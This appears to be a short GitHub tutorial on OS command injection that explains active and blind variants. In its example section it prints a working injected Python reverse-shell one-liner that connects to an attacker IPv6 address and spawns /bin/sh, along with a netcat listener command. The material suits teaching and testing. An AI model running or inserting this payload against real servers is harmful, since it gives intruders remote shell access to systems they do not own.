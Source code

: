  #                                           Web-Vulnerabilites

### OS Command Injection :

### What is OS Command Injection ?


OS Command Injection is server side  web vulnerablities where attacker execute " system command"  like id, whoami ,unamem etc os command  .
It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server.


### Types Of OS Commnad Injection :

                                  There are two types of OS command injection  such as :
                                                                           
                                                                                        i. Active OS command injection
                                
                                                                                        ii. Blind OS command injection

### Active OS Command Injection :


Active command injection will return the response to the user.  It can be made visible through several HTML elements. That means when a attacker execute " system command "  like ls ,server will return result of ls .(Attacker will se the result of ls ) .It is so easy to execute . 


### Blind OS Command Injection :
      
Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document . That means when a  attacker execute " system command "  like ls ,server will not return result of ls but  server execute ls command . For  , seening the result of  "system command " you must upload reverse shell on target / victim server . After ,uploaded  reverse shell on victim server , you must be  listen uploades shell on attacker terminal using nc command . 


### Example :
         
         1. upload reverse shell :
                                  ; python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

        2. listen reverse shell :

                                 nc -nvp 4242

Note : 
           
       1. Change ip according your local host ip
        
       2. One can easily  upload shell if OS command injection is occured .
              
